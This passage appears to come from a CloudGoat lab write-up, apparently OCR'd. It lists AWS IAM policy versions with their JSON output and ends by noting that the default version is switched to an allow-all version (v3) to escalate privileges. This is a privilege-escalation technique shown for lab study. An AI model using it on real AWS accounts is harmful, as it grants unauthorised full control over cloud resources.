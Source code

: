```
    }
}
```

>aws iam get-policy-version --policy-arn arn:aws:iam::101435605421:policy/cg-raynor-policy-cgidfxrmmmmk6b --version-id v4 --profile lab1
```
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": {
                "Effect": "Allow",
                "Action": [
                    "s3:ListBucket",
                    "s3:GetObject",
                    "s3:ListAllMyBuckets"
                ],
                "Resource": "*"
            }
        },
        "VersionId": "v4",
        "IsDefaultVersion": false,
        "CreateDate": "2020-09-11T07:57:07+00:00"
    }
}
```

>aws iam get-policy-version --policy-arn arn:aws:iam::101435605421:policy/cg-raynor-policy-cgidfxrmmmmk6b --version-id v3 --profile lab1

```
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": "*",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v3",
        "IsDefaultVersion": false,
        "CreateDate": "2020-09-11T07:57:05+00:00"
    }
}
```

***create user by changing the default policy to v3 where all actions were allowed.***
